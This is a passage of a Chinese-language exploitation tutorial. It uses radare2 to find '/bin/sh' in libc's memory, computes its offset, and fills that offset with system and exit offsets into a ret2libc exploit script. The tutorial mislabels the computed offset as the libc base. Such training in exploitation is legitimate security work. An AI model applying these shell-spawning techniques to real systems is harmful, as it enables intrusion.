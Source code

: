 ```sh
| /E esil-expr        offset matching given esil expressions %%= here
| /f file [off] [sz]  search contents of file with offset and size
| /i foo              search for string ‘foo’ ignoring case
| /m magicfile        search for matching magic file (use blocksize)
| /o                  show offset of previous instruction
| /p patternsize      search for pattern of given size
| /P patternsize      search similar blocks
| /r[e] sym.printf    analyze opcode reference an offset (/re for esil)
| /R [?] [grepopcode] search for matching ROP gadgets, semicolon-separated
| /v[1248] value      look for an `cfg.bigendian` 32bit value
| /V[1248] min max    look for an `cfg.bigendian` 32bit value in range
| /w foo              search for wide string ‘f\0o\0o\0’
| /wi foo             search for wide string ignoring case ‘f\0o\0o\0’
| /x ff..33           search for hex string ignoring some nibbles
| /x ff0033           search for hex string
| /x ff43 ffd0        search for hexpair with mask
| /z min max          search for strings of given size
```

这其中有大量可用选项。注意：
- `/R` 用于搜索 ROP gadgets
- 我们这次只搜索libc运行时中的`/bin/sh`
- 之后，我们计算 /bin/sh 的偏移量

```
[0x080483d0]> / /bin/sh
Searching 7 bytes from 0x08048000 to 0xffd50000: 2f 62 69 6e 2f 73 68
Searching 7 bytes in [0x8048000-0x8049000]
hits: 0
Searching 7 bytes in [0x8049000-0x804a000]
hits: 0 <..truncated..> Searching 7 bytes in [0xf77aa000-0xf77ab000]
hits: 0
Searching 7 bytes in [0xffd2f000-0xffd50000]
hits: 0
0xf7700768 hit1_0 .b/strtod_l.c-c/bin/shexit 0canonica.
```

r2 发现了内存中的 /bin/sh，位置在 0xf7700768. 接下来我们计算它相对于 base 的 offset。

```
[0x080483d0]> dmm~libc
0xf7599000 /usr/lib32/libc-2.25.so
[0x080483d0]> ?X 0xf7700768-0xf7599000
167768
```
说明：
- `?X` 表示计算后面表达式值，并显示为十六进制。
- 通过上面命令，我们发现了 base of libc 是 0x167768。我们将其填入 exp 程序中。

```py
...

# Offsets
offset_puts = 0x00062710 
offset_system = 0x0003c060 
offset_exit = 0x0002f1b0
offset_str_bin_sh = 0x167768  

...
```
